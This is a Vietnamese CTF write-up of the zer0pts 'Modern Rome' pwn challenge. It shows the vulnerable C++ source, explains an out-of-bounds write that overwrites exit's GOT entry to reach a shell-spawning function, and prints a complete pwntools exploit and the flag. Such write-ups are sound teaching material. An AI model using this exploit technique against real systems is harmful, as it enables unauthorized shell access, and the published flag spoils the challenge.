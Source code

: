 # Modern Rome

![](images/1.png)

Đề cung cấp cho ta file binary và source code.

Kiểm tra file binary

![](images/2.png)

Source code được viết ở ngôn ngữ c++.

```c++
#include <string>
#include <iostream>

short buf[10];

void win() {
  std::system("/bin/sh");
}

short readroman(){
  short res = 0;
  std::string s;

  std::cin >> s;
  auto it = s.crbegin();

  int b = 1;
  for (auto c: "IXCM") {
    int cnt = 0;
    while (cnt < 9 && it != s.crend() && *it == c) {
      it++;
      cnt++;
    }
    res += b * cnt;
    b *= 10;
  }

  return res;
}

int main() {
  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);

  std::cout << "ind: ";
  int ind = readroman();
  std::cout << "val: ";
  int val = readroman();

  std::cout << "buf[" << ind << "] = " << val << std::endl;
  buf[ind] = val;

  std::exit(0);
}

```

Phân tích source, ta thấy:

  - Hàm `win()` gọi cho ta shell.

  - Ở cuối hàm `main()` có dòng `buf[ind] = val;` `buf` là một mảng thuộc phân vùng `bss`, `ind`, `val` có kiểu dữ liệu int => vì không có kiểm tra điều kiện nên ta có thể dùng ghi đè vào 2 byte cuối của `exit.got`, lúc ban đầu `exit.got` sẽ có giá trị là `exit.plt + 4`, đè 2 byte để chuyển về hàm `win()`. Lúc sau khi chương trình gọi `exit()` ở cuối hàm `main()`, ta chạy được hàm `win()`
  
  - Hàm `readtoman()` đọc một chuỗi và chuyển về một số kiểu dữ liệu short (2 bytes), công thức chuyển là `‘\x00’ * a + ‘M’ * b + ‘C’ * c + ‘X’ * d + ‘I’ * e -> abcde`. Nếu chỉ được phép ghi đè 4 số, số tối đa của ta sẽ là 9999 < 32767 => `readtoman()` trả về số dương. Tuy nhiên vòng for sẽ lặp thêm 1 lần null byte, giúp cho ta ghi được số thứ 5, lúc này ta có thể overflow biến res về số âm. 
`(short)(-372) = 0xfe8c = 65164`.

  - Sau đó địa chỉ hàm `win()` là `0x4012F6`, giá trị ban đầu của `exit.got` là `0x4011A4`, ta sẽ đè 2 byte `0x12F6 (4854)` vào 2 byte cuối `exit.got`. 
  
## Exploit:

```python
#
#	***************************
#	* Pwning exploit template *
#	* Arthor: Cobra           *
#	***************************
#

from pwn import *
import sys

def conn():
	local = 0
	debug = 0

	for arg in sys.argv[1:]:
		if arg in ('-h', '--help'):
			print('Usage: python ' + sys.argv[0] + ' <option> ...')
			print('Option:')
			print('        -h, --help:     Show help')
			print('        -l, --local:    Running on local')
			print('        -d, --debug:    Use gdb auto attach')
			exit(0)
		if arg in ('-l', '--local'):
			local = 1
		if arg in ('-d', '--debug'):
			debug = 1

	if local:
		s = process('./chall')
		if debug:
			gdb.attach(s, gdbscript='''
				b*0x0000000000401571
				b*0x00000000004014fd
				b*0x00000000004014e1
				c
			''')
		else:
			raw_input('DEBUG')
	else:
		s = remote('pwn1.ctf.zer0pts.com', 9000)

	return s

s = conn()

elf = ELF('chall')

s.sendlineafter(b'ind: ', b'\x00' * 6 + b'M' * 5 + b'C' * 1 + b'X' * 6 + b'I' * 4)
s.sendlineafter(b'val: ', b'M' * 4 + b'C' * 8 + b'X' * 5 + b'I' * 4)

s.interactive()
```

![](images/3.png)

Flag: `zer0pts{R0me_w1ll_3x1st_a5_1on9_4s_th3_Col1s3um_d0es}`
